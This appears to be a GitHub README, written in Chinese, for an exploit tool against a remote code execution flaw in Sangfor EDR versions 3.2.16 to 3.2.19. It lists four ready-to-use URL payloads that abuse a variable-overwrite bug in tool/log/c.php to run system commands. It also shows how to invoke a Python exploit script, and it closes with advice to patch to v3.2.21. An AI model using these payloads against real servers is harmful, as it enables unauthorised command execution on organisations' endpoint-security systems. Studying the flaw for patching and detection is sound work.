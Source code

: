 # sangforEdr

## 说明

tool\log\c.php文件的变量覆盖漏洞也是最早开始网传的深信服的RCE漏洞。。
https://xxx.xxx/tool/log/c.php?strip_slashes=system&host=id
原理就是典型的变量覆盖漏洞



## Payload

```
/tool/log/c.php?strip_slashes=system&host=id
/tool/log/c.php?strip_slashes=system&path=id
/tool/log/c.php?strip_slashes=system&row=id
/tool/log/c.php?strip_slashes=system&limit=id
```

## 使用方法

python3 EDR_RCE.py --help

![image-20201109110343499](./img/1.png)

## 影响范围

- 深信服 EDR v3.2.16
- 深信服 EDR v3.2.17
- 深信服 EDR v3.2.19

## 漏洞处置建议

深信服官方已经发布升级版本和补丁，更新至v3.2.21版本或升级补丁即可修复该问题并增强其他安全机制。
1、可以通过在线升级方式推送补丁包修复该漏洞，开启在线升级功能可自动修复该漏洞。
2、针对无法在线升级的用户，用户可通过以下链接下载升级安装包来完成EDR的升级工作：